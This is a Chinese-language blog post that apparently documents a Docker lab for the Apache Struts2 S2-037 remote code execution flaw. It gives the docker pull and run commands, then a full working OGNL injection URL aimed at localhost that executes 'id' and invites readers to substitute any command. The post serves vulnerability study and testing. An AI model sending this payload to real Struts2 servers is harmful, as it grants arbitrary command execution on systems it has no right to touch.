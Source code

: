```yaml
---
layout: post
title: "Struts2 远程代码执行漏洞(S2-037)"
date: 2016-06-16 16:18:20 +0800
image: '/assets/img/'
description: 'Struts2 远程代码执行漏洞(S2-037)环境'
main-class: 'hole'
color: '#B31917'
tags:
- Struts2
- RCE
categories:
- Struts2
twitter_text: 'Struts2 远程代码执行漏洞(S2-037)环境'
introduction: 'Struts2 远程代码执行漏洞(S2-037)环境'
---
```

<style type="text/css">
.highlight pre{
  white-space: pre-wrap;
}    
</style>

### 漏洞信息

 * [S2-037 官方公告](http://struts.apache.org/docs/s2-037.html)

### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:s_struts2_s2-037
 ```

2. 启动环境
 ```bash
$ docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
 ```
 > `-p 8080:8080` 前面的 8080 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/4/(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```

> 修改参数 command 的值为你要执行的命令

![](https://github.com/Medicean/VulApps/raw/master/s/struts2/s2-037/exp-1.png)

### 改动日志

20160731

 * 修正资源为本地路径

20160909

 ＊ 修正开启 devMode 后导致找不到类的问题
